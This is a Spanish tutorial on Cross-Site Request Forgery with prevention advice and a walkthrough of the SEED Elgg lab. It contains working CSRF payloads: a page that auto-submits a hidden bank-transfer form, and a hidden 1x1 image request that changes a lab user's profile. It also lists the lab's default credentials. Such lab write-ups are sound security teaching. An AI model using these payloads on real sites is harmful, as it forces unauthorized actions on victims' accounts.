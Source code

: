 # Cross-Site Request Forgery (CSRF)

## ¿Qué es CSRF?

El **Cross-Site Request Forgery (CSRF)** es una vulnerabilidad en la que un atacante engaña a un usuario legítimo para que realice una **acción no deseada** en una aplicación web donde ya está autenticado.  
El ataque aprovecha que el navegador del usuario **automáticamente envía las cookies** de sesión a la aplicación web, sin que el usuario se dé cuenta.

## ¿Cómo ocurre?

1. El usuario está autenticado en una web (por ejemplo, su banco en línea).
    
2. Sin cerrar sesión, el usuario visita un sitio web malicioso.
    
3. El sitio malicioso **envía una solicitud HTTP** al sitio legítimo utilizando la sesión activa del usuario.
    
4. Como el navegador incluye automáticamente las cookies, el sitio legítimo procesa la solicitud **como si fuera legítima**.
    

## Ejemplo realista

Un atacante crea una página maliciosa que fuerza a un usuario autenticado a realizar una **transferencia bancaria** sin su consentimiento.

```html
<!-- Página maliciosa -->
<html>
  <body>
    <h1>¡Oferta exclusiva! ¡Haz clic aquí!</h1>
    <form action="https://banco-victima.com/transferir" method="POST">
      <input type="hidden" name="destinatario" value="cuenta-atacante">
      <input type="hidden" name="cantidad" value="1000">
      <input type="submit" value="Gana un premio">
    </form>

    <script>
      document.forms[0].submit(); // Envía automáticamente el formulario
    </script>
  </body>
</html>
```

> Si el usuario está autenticado en `banco-victima.com`, al visitar esta página, se enviará una transferencia de **1000 unidades** a la cuenta del atacante **sin que el usuario se entere**.

## ¿Qué acciones podría forzar un atacante?

- Transferir dinero
    
- Cambiar el correo electrónico o contraseña
    
- Eliminar cuentas o datos importantes
    
- Escalar privilegios o dar permisos a un atacante
    

## ¿Cómo prevenir CSRF?

- **Tokens CSRF**: Incluir un **token aleatorio y único** en cada formulario y solicitud. El servidor valida que este token sea correcto.
    
- **Cabeceras personalizadas**: Usar cabeceras que el navegador no envía automáticamente, para que el atacante no pueda replicarlas.
    
- **SameSite Cookies**: Configurar las cookies de sesión con la propiedad `SameSite=Strict` o `SameSite=Lax` para limitar el envío de cookies a solicitudes del mismo origen.
    
- **Verificación de origen**: Revisar la cabecera `Origin` o `Referer` para confirmar que la solicitud viene del sitio legítimo.
    

---
# Secuencia del ataque

Vamos a desglosar paso a paso como sería un ataque de *CSRF*

## Paso 1 - Despliegue del laboratorio

[Laboratorio CSRF:](https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip)


Acción: 

```Shell
wget https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip
unzip Labsetup.zip
rm !$
cd Labsetup
docker-compose up -d
```

Resultado: 

```Shell
attacker  docker-compose.yml  image_attacker  image_mysql  image_www
```

Explicación:  descargamos a nuestra máquina local este laboratorio, descomprimimos y accedemos a la carpeta descargada para iniciar el [Docker](../../Herramientas/Docker) 

## Paso 2 -

Acción: 

```Shell
nvim /etc/hosts
```

Resultado:

```lua
# Host addresses
127.0.0.1  localhost
127.0.1.1  parrot
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
# Others

# Docker

10.9.0.5  www.seed-server.com
10.9.0.5  www.example32.com
10.9.0.105  www.attacker32.com
```

Explicación:  añadimos al `/etc/hosts` los dominios asociados al contenedor

**Nota:** tenemos por defecto estas dos credenciales:

```txt
alice:seedalice
samy:seedsamy
```

## Paso 3 -

Acción: en BurpSuite, pasamos la solicitud de POST a GET, y teniendo en cuenta el identificador de usuario (en este caso alice es el 56) escribimos este mensaje en un campo que interpreta html y lo que hacemos es que se crea una imagen (que añadimos algunos valores de altura y ancho con width y height), de esta forma alice al entrar al mensaje no vera nada raro pero estará tramitando el cambio de nombre de usuario

```txt
<img src="http://www.seed.server.com/action/profile/edit?name=Hacked&description=&accesslevel%5bdescription%5d=2&briefdescription=&accesslevel%5bbriefdescription%5d=2&location=&accesslevel%5blocation%5d=2&interests=&accesslevel%5binterests%5d=2&skills=&accesslevel%5bskills%5d=2&contactemail=&accesslevel%5bcontactemail%5d=2&phone=&accesslevel%5bphone%5d=2&mobile=&accesslevel%5bmobile%5d=2&website=&accesslevel%5bwebsite%5d=2&twitter=&accesslevel%5btwitter%5d=2&guid=56" alt="image" width="1" height="1"/>
```

Explicación:  con este payload a través de [Burp Suite](../../Herramientas/Burp%20Suite) podemos realizar la acción maliciosa de hacer que el usuario que recibe este mensaje modifique su nombre de usuario.
